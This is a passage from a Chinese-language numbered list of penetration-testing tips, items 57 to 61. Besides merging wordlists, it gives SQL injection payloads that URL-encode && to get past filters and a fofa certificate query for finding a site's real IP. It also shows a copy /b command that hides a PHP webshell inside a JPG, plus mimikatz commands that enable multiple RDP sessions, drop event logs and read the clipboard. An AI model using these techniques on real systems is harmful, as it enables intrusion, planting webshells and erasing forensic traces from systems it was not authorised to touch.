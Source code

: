 57、整理字典时，推荐用linux下的工具快速合并和去重
```
cat file1.txt file2.txt fileN.txt > out.txt 
sort out.txt | uniq > out2.txt
```

58、注入时使用url编码对&&和||编码可以绕过一些拦截
```
1' and 1=1--+ 
1' %26%26 True--+ 
同理其他编码也可以试一个遍。
```

59、信息收集的时候可以使用fofa查看证书看是否是真实IP 语法 `cert="baidu.com"`

60、将普通图片1.jpg 和 木马文件shell.php ,合并成木马图片2.jpg
 `copy /b 1.jpg+shell.php 2.jpg`
 
 61、mimikatz小功能
 多用户登录3389：`ts::multirdp` 
 清除日志：`event::drop` 
 粘贴板信息：`misc::clip`